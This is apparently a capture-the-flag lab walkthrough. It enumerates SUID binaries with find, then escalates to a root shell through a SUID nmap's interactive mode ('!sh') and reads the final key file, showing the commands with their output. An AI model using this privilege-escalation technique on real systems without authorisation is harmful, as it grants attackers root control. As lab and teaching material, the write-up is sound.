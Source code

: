 ### What It Does:

This command searches the entire filesystem (`/`) for regular files (`-type f`) that have the SUID permission set (`-perm -u=s`), while discarding any error messages.

### Example Use Case:

The command is often used by system administrators or security professionals to identify potentially risky SUID programs, which could be exploited for privilege escalation.

```bash
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

**Exploiting SUID Nmap**:  
The binary `/usr/local/bin/nmap` has the SUID bit set. According to [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/), this can be exploited to gain a root shell.  
Run the following commands:


```
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
```

**Retrieve the Final Key**:  
Navigate to the root directory and read the last key:
```
# cd /root
cd /root
# ls
ls
firstboot_done	key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
